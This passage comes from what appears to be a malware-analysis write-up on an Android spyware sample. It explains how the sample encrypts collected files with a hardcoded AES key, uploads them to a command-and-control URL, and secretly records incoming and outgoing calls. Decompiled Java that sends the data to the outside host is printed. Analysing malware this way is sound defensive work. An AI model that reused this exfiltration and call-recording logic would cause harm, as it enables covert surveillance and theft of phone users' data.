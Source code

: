 The files gathered previously are zipped and encrypted.
The encryption algorithm is AES. You need to go and see `CryptHelper.encryptFile()` to see that.
The key is `08D03B0B6BE7FBCD`

FYI, after the files are zipped and encrypted they are sent to the CnC:

```java
if (!this.m_uploading) {
                String v4_27 = new Void[0];
                new cake.com.update.receivers.AlarmReceiver$2(this).execute(v4_27);
```

The execute() method does in background:

```java
d.CLASS_Lcake_com_update_receivers_AlarmReceiver_2.METHOD_doInBackground_Ljava_lang_VoidLjava_lang_Boolean.source()

    protected varargs Boolean doInBackground(Void[] p11)
    {
        Boolean v5_17;
        String v0 = new StringBuilder().append(cake.com.update.receivers.AlarmReceiver.access$100(this.this$0)).append("____").append(cake.com.update.libraries.FileHelper.getSimpleName(new java.text.SimpleDateFormat("dd-MM-yyyy_hh:mm:ss").format(new java.util.Date()))).toString();
        String v6_8 = new Object[3];
        v6_8[0] = "http://cgalim.com/admin/hr/pu/pu.php?do=upload";
        v6_8[1] = "_file";
        v6_8[2] = v0;
        cake.com.update.utilities.MyLog.d("----start uploading, url=%s, an=%s, afn=%s", v6_8);
        String v3 = cake.com.update.libraries.NetHelper.uploadFile(new StringBuilder().append(android.os.Environment.getExternalStorageDirectory()).append("/icloud/tmp-ord.dat-enc").toString(), "http://cgalim.com/admin/hr/pu/pu.php?do=upload", "_file", v0);
```

## Q7. What does the CallReceiver do?

This receiver is called when the smartphone starts an outgoing call or gets an incoming call.

```
 <receiver android:name="cake.com.update.receivers.CallReceiver">
            <intent-filter>
                <action android:name="android.intent.action.PHONE_STATE"/>
                <action android:name="android.intent.action.NEW_OUTGOING_CALL"/>
            </intent-filter>
```

In that case, the `onReceive()` method of CallReceiver gets called.
It retrieves the phone number which is dialed or incoming.
It calls `CaptureCallService` with extra parameters:

- command type
- phone number

In `CaptureCallService`, the call is recorded (see onStartCommand()) and stored in a .amr audio file in the /icloud/tmp-ord directory.
The file is encrypted.
It will be leaked to the CnC with other data.
